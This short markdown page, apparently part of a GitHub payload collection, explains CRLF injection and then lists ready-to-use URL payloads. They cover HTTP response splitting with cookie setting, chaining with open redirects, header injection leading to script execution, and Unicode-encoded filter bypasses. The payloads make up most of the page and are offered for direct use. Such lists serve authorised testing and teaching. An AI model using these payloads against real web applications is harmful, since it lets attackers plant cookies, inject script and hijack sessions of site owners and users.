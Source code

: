 # **CRLF Injection (%0d%0a)** #
## **What is CRLF Injection?** ##
CRLF injection vulnerability is a type of security flaw that occurs when an attacker can inject carriage return (CR) and line feed (LF) characters into an application's input. These characters are used to control the formatting of text in protocols like HTTP. Exploiting this vulnerability can allow attackers to manipulate the behavior of the application, such as inserting additional HTTP headers, modifying content, or performing other malicious actions. This can lead to various attacks, including HTTP response splitting, cross-site scripting (XSS), and session fixation.

## **Payloads** ##

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com
3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
### **Reference:** ###
- [https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)